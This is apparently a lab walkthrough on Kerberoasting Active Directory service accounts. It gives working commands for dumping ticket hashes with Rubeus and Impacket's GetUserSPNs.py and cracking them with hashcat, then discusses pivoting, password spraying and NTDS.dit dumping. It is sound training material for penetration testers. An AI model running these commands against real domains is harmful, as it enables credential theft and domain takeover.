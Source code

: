 I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.

![https://i.imgur.com/Mtl9O6B.png](https://i.imgur.com/Mtl9O6B.png)

# Method 1 - Rubeus

# Kerberoasting w/ Rubeus

1.) `cd Downloads` - navigate to the directory Rubeus is in

2.) `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

![https://i.imgur.com/XZegVqf.png](https://i.imgur.com/XZegVqf.png)

I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt)

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

# Method 2 - Impacket

# Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `cd /opt` navigate to your preferred directory to save tools in

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

# Kerberoasting w/ Impacket -

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.110.108 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

# What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.
